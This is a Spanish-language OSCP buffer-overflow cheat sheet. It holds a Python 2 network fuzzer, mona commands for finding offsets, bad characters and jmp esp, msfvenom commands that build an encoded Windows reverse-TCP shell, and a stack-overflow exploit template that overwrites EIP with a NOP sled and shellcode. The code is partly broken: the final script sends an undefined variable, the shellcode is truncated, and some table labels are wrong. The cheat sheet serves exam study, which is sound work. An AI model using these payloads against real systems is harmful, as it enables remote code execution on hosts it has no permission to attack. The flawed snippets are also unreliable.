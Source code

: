 # OSCP BOF Cheat Sheet

| Fuzzing |  |
|---|---|
| `msf-pattern_create -l <longitud de bytes>` | Generación de patrón |
| `!mona pattern_create <longitud de bytes>` | Generación de patrón |
| `msf-pattern_create -l <EIP>` | Identificación offset |
| `!mona pattern_offset <EIP>` | Identificación offset |

## `fuzzer.py`

```python
#from pwn import *
import socket, sys, time

if len(sys.argv) < 2:
   print "\n[!] Uso: python " + sys.argv[0] + "<ip-address> " + "<remote-port>\n"
   sys.exit(0)

ip_address = sys.argv[1]
rport = int(sys.argv[2])

if __name__ == '__main__':
   contador = 100
   #p1 = log.progress("Data") Log de datos en pwntools
   while True:
      #p1.status(f"Enviando {contador} bytes.") Log de datos en pwntools
      print "Enviando %s bytes." % contador
      buffer = 'A' * contador
      try:
         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.connect((ip_address, rport))

         data = s.recv(1024)
         s.send("%s\r\n" % buffer)
         data = s.recv(1024)
         contador += 100
         time.sleep(1)
      except Exception as ex:
         print "\n[!] Ha habido un error de conexion\n"
         print ex
         sys.exit(1)
```

## Bad Chars

| Identificar Bad Chars |  |
|---|---|
| `!mona bytearray -cpb '\x00'` | Generación de bytearray con excepciones |
| `!mona compare -f <ubicacion de byte array .bin> -a <dirección de ESP>` | Comparación de bytearray contra ESP |

### Colección en arreglo

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

### Colección plana

`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

## Búsqueda para ejecución

| Búsqueda de `jmp esp` |  |
|---|---|
| `!mona modules` | Generación de patrón |
| `!mona find -s "\xff\xe4" -m <nombre de dll>` | Generación de patrón |

## Payload

| Generación de payload |  |
|---|---|
| `msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -i 3 -f python > scode.txt` | Encoder `shikata ga nai` |
| `msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -f python > scode.txt` | Sin encoder y si iteraciones |

## Exploit final

```python
from struct import pack
import socket, sys

if len(sys.argv) < 2:
    print "\n [!] Uso: python " + sys.argv[0] + "<ip-address>" + "<remote-port> \n"
    sys.exit(0)

ip_address = sys.argv[1]
rport = int(sys.argv[2])

shellcode =  b""
shellcode += b"\xb8\x36\xda\x75\x0f\xda\xd5\xd9\x74\x24\xf4\x5b\x2b"

#badchars = ()
#badchars \x00\x23\x3c\x83\xba

if __name__ == "__main__":
   prefix = ""
   offset = 1052
   filler = "A" * offset
   eip = pack("<L", 0x68a98a7b)
   nops = "\x90" * 16
   #nops = "\x83\xEC\x10" # sub esp, 0x10

   #payload = prefix + filler + eip + badhchars
   payload = prefix + filler + eip + nops + shellcode

   try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.connect((ip_address, rport))
      s.send("%s\r\n" % buffer)
   except Exception as ex:
      print "[!] Ha habido un error de conexion"
      print ex
      sys.exit(1)
```